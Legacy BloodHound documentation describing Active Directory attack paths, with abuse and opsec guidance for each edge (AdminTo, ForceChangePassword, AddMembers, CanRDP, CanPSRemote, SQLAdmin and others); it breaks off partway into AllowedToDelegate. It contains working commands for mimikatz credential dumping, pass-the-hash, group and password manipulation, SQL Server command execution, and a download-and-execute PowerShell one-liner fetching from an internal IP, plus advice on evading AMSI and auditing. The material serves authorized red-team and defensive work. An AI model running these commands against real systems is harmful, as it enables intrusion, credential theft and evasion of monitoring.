

.. note::
   This documentation applies to Legacy BloodHound and is no longer maintained.

   See up-to-date documentation for BloodHound CE here: `About BloodHound Edges`_

.. _About BloodHound Edges: https://support.bloodhoundenterprise.io/hc/en-us/articles/17224136169371

Edges
=====

Edges are part of the graph construct, and are represented as links that
connect one node to another. For example, this shows the user node for
David McGuire connected to two groups, "Domain Admins" and "Domain Users",
via the "MemberOf" edge, indicating this user belongs to both of those
groups:

The direction of the edge always indicates the direct of attack, or the
direction of escalating privileges. For example, because the David McGuire
user belongs to the Domain Users and Domain Admins group, his user has the
same privileges both of those groups have.

|

----

|

AdminTo
^^^^^^^

This edge indicates that principal is a local administrator on the target
computer. By default, administrators have several ways to perform remote
code execution on Windows systems, including via RDP, WMI, WinRM, the
Service Control Manager, and remote DCOM execution.

Further, administrators have several options for impersonating other users
logged onto the system, including plaintext password extraction, token
impersonation, and injecting into processes running as another user.

Finally, administrators can often disable host-based security controls that
would otherwise prevent the aforementioned techniques.

Abuse Info
------------

There are several ways to pivot to a Windows system. If using Cobalt
Strike's beacon, check the help info for the commands "psexec", "psexec_psh",
"wmi", and "winrm". With Empire, consider the modules for Invoke-PsExec,
Invoke-DCOM, and Invoke-SMBExec.

With Metasploit, consider the modules "exploit/windows/smb/psexec",
"exploit/windows/winrm/winrm_script_exec", and
"exploit/windows/local/ps_wmi_exec".

Additionally, there are several manual methods for remotely executing code on
the machine, including via RDP, with the service control binary and
interaction with the remote machine's service control manager, and remotely
instantiating DCOM objects. For more information about these lateral movement
techniques, see the References section below.

**Gathering credentials**

The most well-known tool for gathering credentials from a Windows system is
mimikatz. mimikatz is built into several agents and toolsets, including
Cobalt Strike's beacon, Empire, and Meterpreter. While running in a high
integrity process with SeDebugPrivilege, execute one or more of mimikatz's
credential gathering techniques (e.g.: sekurlsa::wdigest,
sekurlsa::logonpasswords, etc.), then parse or investigate the output to
find clear-text credentials for other users logged onto the system.
            
You may also gather credentials when a user types them or copies them to
their clipboard! Several keylogging capabilities exist, several agents and
toolsets have them built-in. For instance, you may use meterpreter's
"keyscan_start" command to start keylogging a user, then "keyscan_dump" to
return the captured keystrokes. Or, you may use PowerSploit's
Invoke-ClipboardMonitor to periodically gather the contents of the user's
clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but
you can't gather that user's credential. This may be caused by a host-based
security product, lsass protection, etc. In those circumstances, you may
abuse Windows' token model in several ways. First, you may inject your agent
into that user's process, which will give you a process token as that user,
which you can then use to authenticate to other systems on the network. Or,
you may steal a process token from a remote process and start a thread in
your agent's process with that user's token. For more information about
token abuses, see the References tab.

**Disabling host-based security controls**

Several host-based controls may affect your ability to execute certain
techniques, such as credential theft, process injection, command line
execution, and writing files to disk. Administrators can often disable these
host-based controls in various ways, such as stopping or otherwise disabling
a service, unloading a driver, or making registry key changes. For more
information, see the References section below.

Opsec Considerations
--------------------

There are several forensic artifacts generated by the techniques described
above. For instance, lateral movement via PsExec will generate 4697 events on
the target system. If the target organization is collecting and analyzing those
events, they may very easily detect lateral movement via PsExec. 

Additionally, an EDR product may detect your attempt to inject into lsass and
alert a SOC analyst. There are many more opsec considerations to keep in mind
when abusing administrator privileges. For more information, see the References
section below.

References
----------

https://attack.mitre.org/wiki/Lateral_Movement

**Gathering Credentials**

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

**Disabling host-based security controls**

* https://blog.netspi.com/10-evil-user-tricks-for-bypassing-anti-virus/
* https://www.blackhillsinfosec.com/bypass-anti-virus-run-mimikatz/

**Opsec Considerations**

* https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/

|

----

|

MemberOf
^^^^^^^^

Groups in active directory grant their members any privileges the group itself
has. If a group has rights to another principal, users/computers in the group,
as well as other groups inside the group inherit those permissions.

Abuse Info
------------

No abuse is necessary. This edge simply indicates that a principal belongs to a
security group.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://adsecurity.org/?tag=ad-delegation
* https://www.itprotoday.com/management-mobility/view-or-remove-active-directory-delegated-permissions

|

----

|

HasSession
^^^^^^^^^^

When a user authenticates to a computer, they often leave credentials exposed on
the system, which can be retrieved through LSASS injection, token manipulation
or theft, or injecting into a user's process.

Any user that is an administrator to the system has the capability to retrieve
the credential material from memory if it still exists.

.. note:: A session does not guarantee credential material is present, only possible.

This video explains exactly how BloodHound's session data collection method works:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/q86VgM2Tafc?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

When a user has a session on the computer, you may be able to obtain credentials for
the user via credential dumping or token impersonation. You must be able to move
laterally to the computer, have administrative access on the computer, and the user
must have a non-network logon session on the computer.

Once you have established a Cobalt Strike Beacon, Empire agent, or other implant on
the target, you can use mimikatz to dump credentials of the user that has a session
on the computer. While running in a high integrity process with SeDebugPrivilege,
execute one or more of mimikatz's credential gathering techniques (e.g.:
sekurlsa::wdigest, sekurlsa::logonpasswords, etc.), then parse or investigate the
output to find clear-text credentials for other users logged onto the system.

You may also gather credentials when a user types them or copies them to their
clipboard! Several keylogging capabilities exist, several agents and toolsets have
them built-in. For instance, you may use meterpreter's "keyscan_start" command to
start keylogging a user, then "keyscan_dump" to return the captured keystrokes. Or,
you may use PowerSploit's Invoke-ClipboardMonitor to periodically gather the contents
of the user's clipboard.

**Token Impersonation**

You may run into a situation where a user is logged onto the system, but you can't
gather that user's credential. This may be caused by a host-based security product,
lsass protection, etc. In those circumstances, you may abuse Windows' token model in
several ways. First, you may inject your agent into that user's process, which will
give you a process token as that user, which you can then use to authenticate to other
systems on the network. Or, you may steal a process token from a remote process and
start a thread in your agent's process with that user's token. For more information
about token abuses, see the References section below.

User sessions can be short lived and only represent the sessions that were present at
the time of collection. A user may have ended their session by the time you move to
the computer to target them. However, users tend to use the same machines, such as the
workstations or servers they are assigned to use for their job duties, so it can be
valuable to check multiple times if a user session has started.

Opsec Considerations
--------------------

An EDR product may detect your attempt to inject into lsass and alert a SOC analyst.
There are many more opsec considerations to keep in mind when stealing credentials or
tokens. For more information, see the References section.

References
----------

* http://blog.gentilkiwi.com/mimikatz
* https://github.com/gentilkiwi/mimikatz
* https://adsecurity.org/?page_id=1821
* https://attack.mitre.org/wiki/Credential_Access

**Token Impersonation**

* https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-security-implications-of-windows-access-tokens-2008-04-14.pdf
* https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1
* https://attack.mitre.org/wiki/Technique/T1134

|

----

|

HasSIDHistory
^^^^^^^

The given source principal has, in its SIDHistory
attribute, the SID for the target principal.

When a kerberos ticket is created for source principal, it will
include the SID for the target principal, and therefore grant
the source principal the same privileges and permissions as
the target principal.

Abuse Info
------------

No special actions are needed to abuse this, as the kerberos
tickets created will have all SIDs in the object's SID history
attribute added to them; however, if traversing a domain trust
boundary, ensure that SID filtering is not enforced, as SID
filtering will ignore any SIDs in the SID history portion of a
kerberos ticket.

By default, SID filtering is not enabled for all domain trust
types.

Opsec Considerations
--------------------

No opsec considerations apply to this edge.

References
----------

* https://blog.harmj0y.net/redteaming/the-trustpocalypse/
* https://blog.harmj0y.net/redteaming/a-guide-to-attacking-domain-trusts/
* https://adsecurity.org/?p=1772
* https://adsecurity.org/?tag=sidhistory
* https://attack.mitre.org/techniques/T1178/
* https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/

|

----

|

ForceChangePassword
^^^^^^^^^^^^^^^^^^^

This edge indicates that the principal can reset the password of the target user without
knowing the current password of that user.

To see an example of this edge being abused, see this clip from Derbycon 2017:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2291?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by
using the built-in net.exe binary in Windows (e.g.: net user dfm.a Password123! /domain).
See the opsec considerations section for why this may be a bad idea. The second, and
highly recommended method, is by using the Set-DomainUserPassword function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the ForceChangePassword privilege. Additionally, you have much safer execution
options than you do with spawning net.exe (see the opsec info below).

To abuse this privilege with PowerView's Set-DomainUserPassword, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainUserPassword, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)

Then create a secure string object for the password you want to set on the target user:

::

  $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already
running within a process as the user with the password reset privilege

::

  Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred

Now that you know the target user's plain text password, you can either start a new agent
as that user, or use that user's credentials in conjunction with PowerView's ACL abuse
functions, or perhaps even RDP to a system the target user has access to. For more ideas
and information, see the references section below.

Opsec Considerations
--------------------

Executing this abuse with the net binary will necessarily require command line execution.
If your target organization has command line logging enabled, this is a detection
opportunity for their analysts. 

Regardless of what execution procedure you use, this action will generate a 4724 event on
the domain controller that handled the request. This event may be centrally collected and
analyzed by security analysts, especially for users that are obviously very high
privilege groups (i.e.: Domain Admin users). Also be mindful that PowerShell v5 introduced
several key security features such as script block logging and AMSI that provide security
analysts another detection opportunity. You may be able to completely evade those features
by downgrading to PowerShell v2. 

Finally, by changing a service account password, you may cause that service to stop
functioning properly. This can be bad not only from an opsec perspective, but also a client
management perspective. Be careful!

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.sixdub.net/?p=579
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4724

|

----

|

AddMembers
^^^^^^^^^^

This edge indicates the principal has the ability to add arbitrary principlas to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddMember privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddMembers right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddMembers privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

|

----

|

AddSelf
^^^^^^^^^^

This edge indicates the principal has the ability to add itself to the target
security group. Because of security group delegation, the members of a security group have
the same privileges as that group.

By adding yourself to a group and refreshing your token, you gain all the same privileges
that group has.

See this clip for an example of this edge being abused:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/z8thoG7gPd0?t=2123?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
------------

There are at least two ways to execute this attack. The first and most obvious is by using
the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" dfm.a /add
/domain). See the opsec considerations tab for why this may be a bad idea. The second, and
highly recommended method, is by using the Add-DomainGroupMember function in PowerView.
This function is superior to using the net.exe binary in several ways. For instance, you
can supply alternate credentials, instead of needing to run a process as or logon as the
user with the AddSelf privilege. Additionally, you have much safer execution options than
you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into
your agent session or into a PowerShell instance at the console. 

You may need to authenticate to the Domain Controller as the user with the AddSelf right
if you are not running a process as that user. To do this in conjunction with
Add-DomainGroupMember, first create a PSCredential object (these examples comes from the
PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running
within a process owned by the user with the AddSelf privilege

::

  Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

::

  Get-DomainGroupMember -Identity 'Domain Admins'

Opsec Considerations
--------------------

Executing this abuse with the net binary will require command line execution. If your target
organization has command line logging enabled, this is a detection opportunity for their
analysts.

Regardless of what execution procedure you use, this action will generate a 4728 event on the
domain controller that handled the request. This event may be centrally collected and analyzed
by security analysts, especially for groups that are obviously very high privilege groups
(i.e.: Domain Admins). Also be mindful that Powershell 5 introduced several key security
features such as script block logging and AMSI that provide security analysts another detection
opportunity. 

You may be able to completely evade those features by downgrading to PowerShell v2.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4728

|

----

|

CanRDP
^^^^^^

Remote Desktop access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high
privileges on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
-------------

Abuse of this privilege will depend heavily on the type of access you have. 
            
**PlainText Credentials with Interactive Access**

With plaintext credentials, the easiest way to exploit this privilege is using the built-in
Windows Remote Desktop Client (mstsc.exe). Open mstsc.exe and input the target computer name.
When prompted for credentials, input the credentials for the user with RDP rights to initiate
the remote desktop connection.

**Password Hash with Interactive Access**

With a password hash, exploitation of this privilege will require local administrator privileges
on a system, and the remote server must allow Restricted Admin Mode. 

First, inject the NTLM credential for the user you're abusing into memory using mimikatz:

::

  lsadump::pth /user:dfm /domain:testlab.local /ntlm:<ntlm hash> /run:"mstsc.exe /restrictedadmin"

This will open a new RDP window. Input the target computer name to initiate the remote desktop
connection. If the target server does not support Restricted Admin Mode, the session will fail.

**Plaintext Credentials without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in Cobalt Strike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. If using socks, ensure that proxychains is configured properly. Initiate
the remote desktop connection with the following command:

::

  proxychains xfreerdp /u:dfm /d:testlab.local /v:<computer ip>

xfreerdp will prompt you for a password, and then initiate the remote desktop connection.

**Password Hash without Interactive Access**

This method will require some method of proxying traffic into the network, such as the socks command
in cobaltstrike, or direct internet connection to the target network, as well as the xfreerdp
(suggested because of support of Network Level Authentication (NLA)) tool, which can be installed
from the freerdp-x11 package. Additionally, the target computer must allow Restricted Admin Mode. If
using socks, ensure that proxychains is configured properly. Initiate the remote desktop connection
with the following command:

::

  proxychains xfreerdp /pth:<ntlm hash> /u:dfm /d:testlab.local /v:<computer ip>

This will initiate the remote desktop connection, and will fail if Restricted Admin Mode is not
enabled.

Opsec Considerations
--------------------

If the target computer is a workstation and a user is currently logged on, one of two things will
happen. If the user you are abusing is the same user as the one logged on, you will effectively take
over their session and kick the logged on user off, resulting in a message to the user. If the users
are different, you will be prompted to kick the currently logged on user off the system and log on.
If the target computer is a server, you will be able to initiate the connection without issue
provided the user you are abusing is not currently logged in.

Remote desktop will create Logon and Logoff events with the access type RemoteInteractive.

References
----------

* https://michael-eder.net/post/2018/native_rdp_pass_the_hash/
* https://www.kali.org/penetration-testing/passing-hash-remote-desktop/

|

----

|

CanPSRemote
^^^^^^^^^^^

PS Session access allows you to enter an interactive session with the target computer. If
authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges
on the system.
    
.. note:: This edge does not guarantee privileged execution.

Abuse Info
-------------

Abuse of this privilege will require you to have interactive access with a system on the network.
    
A remote session can be opened using the New-PSSession powershell command.

You may need to authenticate to the Domain Controller as the user with the PSRemote rights on the
target computer if you are not running as that user. To do this in conjunction with New-PSSession,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then use the New-PSSession command with the credential we just created:

::

  $session = New-PSSession -ComputerName <target computer name> -Credential $Cred

This will open a PowerShell session on the target computer

You can then run a command on the system using the Invoke-Command cmdlet and the session you just
created

::

  Invoke-Command -Session $session -ScriptBlock {Start-Process cmd}

Cleanup of the session is done with the Disconnect-PSSession and Remove-PSSession commands.

::

  Disconnect-PSSession -Session $session
  Remove-PSSession -Session $session

An example of running through this Cobalt Strike for lateral movement is as follows:

::

  powershell $session =  New-PSSession -ComputerName win-2016-001; Invoke-Command -Session $session
  -ScriptBlock {IEX ((new-object net.webclient).downloadstring('http://192.168.231.99:80/a'))};
  Disconnect-PSSession -Session $session; Remove-PSSession -Session $session

Opsec Considerations
--------------------

When using the PowerShell functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI.

Entering a PSSession will generate a logon event on the target computer.

References
----------

* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/new-pssession?view=powershell-7
* https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7

|

----

|

ExecuteDCOM
^^^^^^^^^^^

This can allow code execution under certain conditions by instantiating a COM object on a remote
machine and invoking its methods.

Abuse Info
-----------

The PowerShell script Invoke-DCOM implements lateral movement using a variety of different COM
objects (ProgIds: MMC20.Application, ShellWindows, ShellBrowserWindow, ShellBrowserWindow, and
ExcelDDE).  LethalHTA implements lateral movement using the HTA COM object (ProgId: htafile).  

One can manually instantiate and manipulate COM objects on a remote machine using the following
PowerShell code.  If specifying a COM object by its CLSID:

:: 

  $ComputerName = <target computer name>              # Remote computer
  $clsid = "{fbae34e8-bf95-4da8-bf98-6c6e580aa348}"   # GUID of the COM object
  $Type = [Type]::GetTypeFromCLSID($clsid, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

If specifying a COM object by its ProgID:

::

  $ComputerName = <target computer name>              # Remote computer
  $ProgId = "<NAME>"                                  # GUID of the COM object
  $Type = [Type]::GetTypeFromProgID($ProgId, $ComputerName)
  $ComObject = [Activator]::CreateInstance($Type)

Opsec Considerations
--------------------

The artifacts generated when using DCOM vary depending on the specific COM object used.

DCOM is built on top of the TCP/IP RPC protocol (TCP ports 135 + high ephemeral ports) and may
leverage several different RPC interface UUIDs(outlined here). In order to use DCOM, one must
be authenticated.  Consequently, logon events and authentication-specific logs(Kerberos, NTLM,
etc.) will be generated when using DCOM.  

Processes may be spawned as the user authenticating to the remote system, as a user already
logged into the system, or may take advantage of an already spawned process.  

Many DCOM servers spawn under the process "svchost.exe -k DcomLaunch" and typically have a
command line containing the string " -Embedding" or are executing inside of the DLL hosting
process "DllHost.exe /Processid:{<AppId>}" (where AppId is the AppId the COM object is
registered to use).  Certain COM services are implemented as service executables; consequently,
service-related event logs may be generated.

References
----------

* https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/
* https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
* https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
* https://enigma0x3.net/2017/11/16/lateral-movement-using-outlooks-createobject-method-and-dotnettojscript/
* https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom
* https://www.cybereason.com/blog/dcom-lateral-movement-techniques
* https://bohops.com/2018/04/28/abusing-dcom-for-yet-another-lateral-movement-technique/
* https://attack.mitre.org/wiki/Technique/T1175

**Invoke-DCOM**

* https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1
            
**LethalHTA**

* https://codewhitesec.blogspot.com/2018/07/lethalhta.html
* https://github.com/codewhitesec/LethalHTA/

|

----

|

SQLAdmin
^^^^^^^^

The user is a SQL admin on the target computer

There is at least one MSSQL instance running on the computer where the user with the inbound
SQLAdmin edge is the account configured to run the SQL Server instance. The typical configuration
for MSSQL is to have the local Windows account or Active Directory domain account that is
configured to run the SQL Server service (the primary database engine for SQL Server) have
sysadmin privileges in the SQL Server application. As a result, the SQL Server service account
can be used to log into the SQL Server instance remotely, read all of the databases (including
those protected with transparent encryption), and run operating systems command through SQL
Server (as the service account) using a variety of techniques.

For Windows systems that have been joined to an Active Directory domain, the SQL Server instances
and the associated service account can be identified by executing a LDAP query for a list of
"MSSQLSvc" Service Principal Names (SPN) as a domain user. In short, when the Database Engine
service starts, it attempts to register the SPN, and the SPN is then used to help facilitate
Kerberos authentication.

Author: Scott Sutherland

This clip demonstrates how to abuse this edge:

.. raw:: html

    

    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=2141?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    

Abuse Info
-----------

Scott Sutherland from NetSPI has authored PowerUpSQL, a PowerShell Toolkit for Attacking SQL
Server. Major contributors include Antti Rantasaari, Eric Gruber, and Thomas Elling. Before
executing any of the below commands, download PowerUpSQL and load it into your PowerShell
instance. Get PowerUpSQL here: https://github.com/NetSPI/PowerUpSQL

**Finding Data**

Get a list of databases, sizes, and encryption status:

::

  Get-SQLDatabaseThreaded –Verbose -Instance sqlserver\instance –Threads 10 -NoDefaults

Search columns and data for keywords:

::

  Get-SQLColumnSampleDataThreaded –Verbose -Instance sqlserver\instance –Threads 10 –Keyword "card, password" –SampleSize 2 –ValidateCC -NoDefaults | ft -AutoSize

**Executing Commands**

Below are examples of PowerUpSQL functions that can be used to execute operating system
commands on remote systems through SQL Server using different techniques.  The level of
access on the operating system will depend largely what privileges are provided to the
service account.  However, when domain accounts are configured to run SQL Server services,
it is very common to see them configured with local administrator privileges.

xp_cmdshell Execute Example:

::

  Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10 -Instance sqlserver\instance

Agent Job Execution Examples:

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\windows\temp\test1.txt" -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20 -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

::

  Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt' -Instance sqlserver\instance -username myuser -password mypassword

Python Subsystem Execution:

::

  Invoke-SQLOSPython -Verbose -Command "Whoami" -Instance sqlserver\instance

R subsystem Execution Example:

::

  Invoke-SQLOSR -Verbose -Command "Whoami" -Instance sqlserver\instance

OLE Execution Example:

::

  Invoke-SQLOSOle -Verbose -Command "Whoami" -Instance sqlserver\instance

CLR Execution Example:

::

  Invoke-SQLOSCLR -Verbose -Command "Whoami" -Instance sqlserver\instance

Custom Extended Procedure Execution Example:

1. Create a custom extended stored procedure:

::

  Create-SQLFileXpDll -Verbose -OutFile c:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test

2. Host the test.dll on a share readable by the SQL Server service account:

::

  Get-SQLQuery -Verbose -Query "sp_addextendedproc 'xp_test', '\\yourserver\yourshare\myxp.dll'" -Instance sqlserver\instance

3. Run extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "xp_test" -Instance sqlserver\instance

4. Remove extended stored procedure:

::

  Get-SQLQuery -Verbose -Query "sp_dropextendedproc 'xp_test'" -Instance sqlserver\instance

Author: Scott Sutherland

Opsec Considerations
--------------------

Prior to executing operating system commands through SQL Server, review the audit configuration
and choose a command execution method that is not being monitored.
            
View audits:

::

  SELECT * FROM sys.dm_server_audit_status

View server specifications:

::

  SELECT audit_id, 
  a.name as audit_name, 
  s.name as server_specification_name, 
  d.audit_action_name, 
  s.is_state_enabled, 
  d.is_group, 
  d.audit_action_id, 
  s.create_date, 
  s.modify_date 
  FROM sys.server_audits AS a 
  JOIN sys.server_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.server_audit_specification_details AS d 
  ON s.server_specification_id = d.server_specification_id

View database specifications:

::

  SELECT a.audit_id, 
  a.name as audit_name, 
  s.name as database_specification_name, 
  d.audit_action_name, 
  d.major_id,
  OBJECT_NAME(d.major_id) as object,
  s.is_state_enabled, 
  d.is_group, s.create_date, 
  s.modify_date, 
  d.audited_result 
  FROM sys.server_audits AS a 
  JOIN sys.database_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.database_audit_specification_details AS d 
  ON s.database_specification_id = d.database_specification_id

If server audit specifications are configured on the SQL Server, event ID 15457 logs may be
created in the Windows Application log when SQL Server level configurations are changed to
facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may
be created in the Windows Application log when Agent and database level configuration changes
are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and
configuring audit configurations can be found at https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql

Author: Scott Sutherland

References
----------

* https://github.com/NetSPI/PowerUpSQL/wiki
* https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation
* https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver
* https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017
* https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/

|

----

|

AllowedToDelegate
^^^^^^^^^^^^^^^^^

The constrained delegation primitive allows a principal to authenticate as any user to specific
services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the
target computer. That is, a node with this privilege can impersonate any domain principal
(including Domain Admins) to the specific service on the target host. One caveat- impersonated
users can not be in the "Protected Users" security group or otherwise have delegation privileges
revoked.
            
